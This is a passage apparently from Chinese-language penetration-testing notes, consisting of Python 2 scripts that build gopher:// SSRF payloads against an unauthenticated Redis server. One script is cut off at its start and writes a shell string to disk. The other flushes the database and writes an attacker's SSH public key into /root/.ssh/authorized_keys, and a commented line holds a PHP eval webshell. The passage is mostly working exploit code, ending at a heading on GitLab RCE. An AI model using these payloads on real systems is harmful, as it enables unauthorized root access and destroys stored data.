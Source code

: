 ```python
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.quote(redis_format(x))
    print payload
```
	authorized_keys
```python
import urllib
protocol="gopher://"
ip="192.168.189.208"
port="6379"
# shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
sshpublic_key = "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8IOnJUAt5b/5jDwBDYJTDULjzaqBe2KW3KhqlaY58XveKQRBLrG3ZV0ffPnIW5SLdueunb4HoFKDQ/KPXFzyvVjqByj5688THkq1RJkYxGlgFNgMoPN151zpZ+eCBdFZEf/m8yIb3/7Cp+31s6Q/DvIFif6IjmVRfWXhnkjNehYjsp4gIEBiiW/jWId5yrO9+AwAX4xSabbxuUyu02AQz8wp+h8DZS9itA9m7FyJw8gCrKLEnM7PK/ClEBevDPSR+0YvvYtnUxeCosqp9VrjTfo5q0nNg9JAvPMs+EA1ohUct9UyXbTehr1Bdv4IXx9+7Vhf4/qwle8HKali3feIZ root@kali\n\n"
filename="authorized_keys"
path="/root/.ssh/"
passwd=""
cmd=["flushall",
     "set 1 {}".format(sshpublic_key.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.quote(redis_format(x))
    print payload
```
  ###### 通过 Git 协议在 GitLab 上进行 RCE